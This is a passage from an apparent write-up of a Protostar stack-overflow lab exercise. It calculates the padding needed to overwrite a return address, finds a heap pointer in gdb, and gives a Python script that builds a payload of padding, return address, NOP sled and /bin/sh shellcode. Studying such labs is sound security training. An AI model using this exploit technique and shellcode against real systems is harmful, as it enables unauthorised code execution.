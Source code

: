 ```
                    +-------------------------------------------+----------+
                                      0x0804a000-0x0806b000

```

As the first step, the required padding to overwrite the return address is calculated (for a more detailed explanation on how to do this, check [here](./2020-05-09-protostar-stack5.md)). The pointer passed to `gets` is [ebp-0x4c], and the return address for `getpath`'s stack frame is stored in [ebp+0x4]. To calculate the required padding [ebp-0x4c] was subtracted from [ebp+0x4]:

$$
padding = [ebp+0x4] - [ebp-0x4c]  \\
padding = 0x4 + 0x4c = 0x50 = 80
$$

The next step is to determine the heap address to jump at. To extract this, gdb was used to read the return value of `strdup`. 

```
(gdb) disassemble 
Dump of assembler code for function getpath:
...
0x0804853b <getpath+119>:	mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave  
0x08048544 <getpath+128>:	ret    
End of assembler dump.
(gdb) x $eip
0x8048543 <getpath+127>:	0x8955c3c9
(gdb) x $eax
0x804a008:	0x41414141
```

In this architecture (x86) the return value is stored in EAX. To retrieve the pointer to the heap where the string was copied, EAX was dumped after the function `strdup` returned. From the `gdb` output above, it can be observed that the pointer to the heap is 0x0804a008.

**NOTE:** The returned pointer might vary depending on previous heap allocations and frees. In this particular case this is the only heap allocation happening in the binary. Meaning that the pointer returned will always be the same. 

As stated above, the pointer returned will always be the same for this specific program. But in order to reflect a more real scenario a bigger memory can be allocated in the heap and as part of the payload include a NOP sled that will lead to shellcode. Which increases the probability of aiming to an address that will result in shellcode being executed.

The final step is to determine the shellcode to be run. The shellcode selected was authored by bolonobolo, and the source can be found [here](https://www.exploit-db.com/exploits/47513).

To execute this exploit, the following python script was written to create the input passed to the program.

```python
import struct
nopSled = "\x90" * 163
shellcode = "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
padding = "\xAA" * 80
returnPointer = struct.pack("I", 0x804a060)
print(padding + returnPointer + nopSled + shellcode + "\x00")
```
